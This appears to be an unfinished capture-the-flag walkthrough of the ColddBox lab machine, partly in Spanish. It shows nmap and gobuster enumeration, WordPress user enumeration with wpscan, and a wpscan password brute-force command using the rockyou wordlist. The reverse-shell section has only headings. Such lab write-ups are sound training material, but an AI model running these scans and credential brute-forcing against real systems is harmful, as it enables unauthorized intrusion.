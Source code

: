
## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Resumen**
* 80/tcp open http (Apache/2.4.18)

---
## Web Enumeration

```bash
  gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

## Users Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

## Brute Force
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash

```
## Reverse shell
**Upload Script**

**Listen Port**
**Upgrade Shell
